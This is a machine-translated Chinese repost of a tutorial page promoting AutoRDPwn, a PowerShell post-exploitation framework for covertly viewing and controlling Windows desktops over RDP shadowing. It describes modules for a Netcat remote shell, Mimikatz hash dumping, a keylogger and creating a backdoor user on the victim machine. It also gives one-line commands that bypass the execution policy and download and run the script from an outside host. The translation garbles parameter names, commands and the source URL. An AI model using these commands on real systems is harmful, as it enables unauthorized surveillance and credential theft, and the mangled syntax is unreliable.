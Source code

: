 # AutoRDPwn:影子攻击框架

> [https://kallinuxxtauthorities . com/autodpwn-2/](https://kalilinuxtutorials.com/autordpwn-2/)

[![AutoRDPwn : The Shadow Attack Framework](img/080ad59f6f2eaee957363af53beeece6.png "AutoRDPwn : The Shadow Attack Framework")](https://1.bp.blogspot.com/-YsRhaanUsS8/XsywUOEY5rI/AAAAAAAAGf4/shJ0Fcxmxms70sUO12gBdsooGScphdCcQCLcBGAsYHQ/s1600/Screenshots.png)

**AutoRDPwn** 是在 Powershell 中创建的一个后利用框架，主要设计用于自动化对微软 Windows 计算机的影子攻击。

该漏洞(被微软归类为一项功能)允许远程攻击者在未经受害者同意的情况下查看其桌面，甚至使用操作系统本身的工具按需控制它。

由于有了额外的模块，可以通过 Netcat 获得远程 shell，用 Mimikatz 转储系统散列，加载远程键盘记录器等等。所有这一切，通过七种不同语言的完全直观的菜单。

此外，通过使用一节中描述的一系列参数，可以在反向 shell 中使用它。

**要求**

Powershell 4.0 o 高级版

**变化**

*   **版本 5.1**
    *   修复了许多错误
    *   美观的改进和等待时间的缩短
    *   通过系统设置的代理感知连接
    *   现在可以通过下载。压缩文件
    *   通过按回车键进行语言自动检测
    *   Invoke-DCOM 已被 SharpRDP 取代
    *   通电已被 Invoke-PrivescCheck 取代
    *   在受害者中创建自动清洗子程序
    *   新模块可用:用 AES 加密的 SMB Shell
    *   新模块可用:用运行方式更改用户
    *   其余的更改可以在 CHANGELOG 文件中查阅

**使用**

这个应用程序可以用于本地，远程或团队之间的枢纽。
在反向外壳中远程使用时，有必要使用以下参数:

| 参数 | 描述 |
| --- | --- |
| **-admin / -noadmin** | 根据我们拥有的权限，我们将使用其中的一个 |
| **-诺贵** | 这将避免加载菜单和一些颜色，保证其功能 |
| **——郎** | 我们将选择我们的语言(英语、西班牙语、法语、德语、意大利语、俄语或葡萄牙语) |
| **-选项** | 和菜单一样，我们可以选择如何发动攻击 |
| **-影子** | 我们将决定是否要查看或控制远程设备 |
| **-createuser** | 该参数是可选的，用户 AutoRDPwn:AutoRDPwn 将在受害机器上创建 |
| **-无清洗** | 禁用在受害计算机上撤消所有更改的过程 |

**一行本地执行:**

**powershell-EP bypass " CD $ env:temp；iwr https://darkbyte.net/autordpwn.php-outfile autordpwn . PS1；。\AutoRDPwn.ps1"**

**线上远程执行示例:**

**powershell-EP bypass " CD $ env:temp；iwr https://darkbyte.net/autordpwn.php-outfile autordpwn . PS1；。\ autordpwn . PS1-admin-nogui-lang English-option 4-shadow control-create user "**

详细的使用指南可以在以下链接中找到:
[https://darkbyte.net/autordpwn-la-guia-definitiva](https://darkbyte.net/autordpwn-la-guia-definitiva)

**也可阅读-[urlbrut:破解网站子域名的工具&Dirs](https://kalilinuxtutorials.com/urlbrute/)**

**截图**

![](img/99912c0d49724b3fb9a73db11fb9a004.png)![AutoRDPwn : The Shadow Attack Framework](img/080ad59f6f2eaee957363af53beeece6.png "AutoRDPwn : The Shadow Attack Framework")

**执照**

这个项目是在 GNU 3.0 许可下授权的——更多细节请看许可文件。

**学分和致谢**

这个框架使用了以下脚本和工具:
查奇-枚举器由**路易斯·瓦卡斯**->[https://github.com/Hackplayers/PsCabesha-tools](https://github.com/Hackplayers/PsCabesha-tools)
Invoke-Phant0m 由**哈利勒·达拉巴斯马兹**->[https://github.com/hlldz/Invoke-Phant0m](https://github.com/hlldz/Invoke-Phant0m)
Invoke-PowerShellTcp 由**尼克希尔“萨姆拉塔肖克”米塔尔**->[https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
Invoke-the hash 由->[https://docs . Microsoft . com/en-us/sys internals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)
Stas ' m corp .->[https://github.com/stascorp/rdpwrap](https://github.com/stascorp/rdpwrap)
sharp RDP by**Steven F**->[https://github.com/0xthirteen/SharpRDP](https://github.com/0xthirteen/SharpRDP)
等等，不适合在此赘述 ..感谢他们所有人和他们出色的工作。

[**Download**](https://github.com/JoelGMSec/AutoRDPwn)